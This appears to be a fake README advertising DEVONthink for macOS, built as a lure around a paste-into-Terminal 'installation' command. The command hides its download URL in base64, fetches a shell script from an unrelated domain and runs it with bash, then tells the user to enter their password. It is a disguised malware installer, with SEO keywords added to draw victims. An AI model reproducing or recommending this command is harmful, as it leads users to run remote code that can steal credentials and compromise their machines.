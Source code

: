 # 📂 DEVONthink for macOS

## About
DEVONthink for macOS is a comprehensive document and knowledge management solution. It helps you organize, search, and automate your notes, files, and research using AI-assisted tools, keeping your information structured and accessible.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://www.devontechnologies.com/media/pages/apps/devonthink/f23ac19456-1750434435/packshot-devonthink-light.png)  
![Overview 2](https://www.devontechnologies.com/media/pages/apps/devonthink/e1677b5e43-1743674867/webinterface-light.jpg)

## Key Features
- 🗃️ AI-assisted document classification  
- 🔍 Smart search across files and notes  
- 🖋️ Annotation and PDF editing tools  
- 🔄 Automation workflows and scripts  
- ☁️ iCloud and cloud storage sync  
- 🖥️ Optimized for macOS productivity

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 300 MB of available disk space  
- Internet connection for AI features and sync

## SEO Keywords
DEVONthink macOS · document management Mac · knowledge management software · AI file organization · note-taking and research macOS · productivity tool Mac · smart document management
